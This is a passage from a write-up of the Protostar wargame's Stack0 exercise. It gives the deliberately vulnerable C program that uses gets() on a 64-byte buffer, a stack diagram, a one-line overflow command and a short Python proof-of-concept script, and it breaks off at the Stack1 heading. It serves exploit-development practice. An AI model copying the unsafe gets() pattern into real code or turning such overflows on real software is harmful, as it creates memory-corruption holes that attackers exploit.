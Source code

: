 # protostar
protostar sploits and solutions 
https://exploit-exercises.com/protostar

NOTE: write ups in progress. Adding python exploit poc's to each excercise for practice!

##Stack0


int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}

###Stack looks like:
 ---------------------------------------
| eip | ebp | modified(0) |   buffer    |
 ---------------------------------------
fill buffer with gets 
since buffer = 64 bytes, an input of 65 bytes should overflow and overwrite modified

###winning command:
python -c "print 'a'*64+'1'" | ./stack0

###Python exploit script for this challenge
from subprocess import Popen, PIPE
################
buffer = 64
fill = "A"*buffer
input=fill+"1"
#################
cproc = Popen("./stack0", stdin=PIPE, stdout=PIPE)
print cproc.communicate(input)[0]


---------------------------------------------------------------------------------------------------------------------
##Stack1

